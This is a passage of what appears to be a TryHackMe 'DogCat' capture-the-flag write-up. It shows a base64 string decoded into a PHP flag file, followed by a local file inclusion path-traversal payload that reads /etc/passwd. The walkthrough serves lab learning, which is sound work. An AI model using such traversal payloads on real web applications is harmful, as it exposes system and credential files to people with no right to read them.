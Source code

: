 ![Desktop View](/assets/img/sample/DogCat/5.png)

we got base64, let's decode it

```
root@cyb3rhoL1c:~/Desktop/TryHackMe/DogCat# echo "PD9waHAKJGZsYWdfMSA9IC***********YXRkb2dfYWI2N2VkZmF9Igo/Pgo=" | base64 -d
<?php
$flag_1 = "THM{Th1s_1s_*******_ab67edfa}"
?>

```

and we got flag1 ,after some enumerating on LFI ,i'm got /etc/passwd with this

`?view=dog/../../../../../../../etc/passwd&ext=`

![Desktop View](/assets/img/sample/DogCat/6.png)
